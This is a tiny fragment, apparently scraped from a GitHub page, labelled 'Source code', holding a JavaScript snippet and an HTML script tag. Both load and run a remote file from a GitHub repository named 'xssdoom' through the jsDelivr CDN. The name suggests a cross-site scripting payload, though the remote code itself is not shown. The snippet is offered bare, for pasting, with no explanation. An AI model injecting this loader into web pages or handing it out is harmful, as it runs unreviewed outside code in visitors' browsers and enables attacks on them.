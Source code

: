 var script = document.createElement('script');
script.src = 'https://cdn.jsdelivr.net/gh/Zzks7/xssdoom@main/script.js';
document.head.appendChild(script);


<script src='https://cdn.jsdelivr.net/gh/Zzks7/xssdoom@main/script.js'></script>
